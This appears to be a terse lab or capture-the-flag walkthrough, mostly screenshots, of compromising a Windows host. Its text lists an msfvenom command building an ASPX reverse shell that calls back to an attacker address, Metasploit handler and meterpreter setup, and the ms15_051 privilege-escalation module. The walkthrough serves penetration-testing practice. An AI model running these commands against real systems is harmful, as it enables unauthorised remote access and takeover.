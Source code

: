 1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dee42697-4562-4730-9aa2-7a049254a00b)

2.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3cf4a592-3223-4bee-97b7-606722736c03)

3.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/833abcbe-1c65-46bb-982e-65f5dc0a7ef9)

4.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/23a1d4db-ba4e-4c39-86c8-6a931384bd0f)

Proof:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cc3b2bf9-9c3e-4717-bb56-71e961fcb2e1)

5.

Command: msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.22 lport=777 -f aspx > payload.aspx
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d11f9518-c840-4a5d-a61a-876d55ea2016)


Victim Terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/98972545-bbdc-4471-a666-328716957e64)

Run: 
Command: http://10.10.10.5/payload.aspx<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/17f85445-4d56-4e8f-b3db-79539a970c7a)

6. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5d606960-ac08-4a9e-b0a3-9fab8d0b0717)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/54996220-7a8f-4475-855e-b46a1d3a4976)

Command 1: use exploit/multi/handler <br>
Command 2: set payload windows/meterpreter/reverse_tcp <br>
Command 3: SET LHOST and LPORT <br>
Command 4: run post/multi/recon/local_exploit_suggester<br>

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/99350759-4512-48d1-beeb-f364e809f10e)

Result:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f1603a3c-4ef0-4498-ba3f-41f4ee885313)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bb6f5413-30bc-4d7b-bfef-fc3383399c08)

8.

Payload: exploit/windows/local/ms15_051_client_copy_image

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6e719dd0-975a-4d3f-9c00-6a859bbca416)

Result: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5697ae40-ec0d-4901-9182-562c6fdeb197)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c4b8d9a6-1b79-4176-b5b9-45e7a5c14c94)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/abf81c41-6a08-4396-9d0b-8b9cb20a12f6)



















